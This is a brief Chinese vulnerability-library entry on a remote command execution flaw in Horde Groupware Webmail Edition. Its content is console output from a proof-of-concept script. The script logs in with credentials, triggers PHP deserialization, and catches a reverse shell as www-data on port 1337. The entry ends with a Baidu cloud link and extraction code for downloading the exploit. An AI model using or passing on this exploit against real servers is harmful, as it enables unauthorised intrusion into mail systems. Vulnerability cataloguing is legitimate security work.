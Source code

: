 ```yaml
---
title: 'Horde Groupware Webmail Edition 远程命令执行'
date: Tue, 15 Sep 2020 08:55:10 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


```
saturn:~$./poc.py 172.16.175.148/horde/ hordeuser:pass123 172.16.175.145
(+) targeting http://172.16.175.145/horde/
(+) obtained session iefankvohbl8og0mtaadm3efb6
(+) inserted our php object
(+) triggering deserialization...
(+) starting handler on port 1337
(+) connection from 172.16.175.145
(+) pop thy shell!
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/horde/services 
```poc 链接：https://pan.baidu.com/s/1-P-9IUMpHKZDIXELIFIOJg 提取码：dgne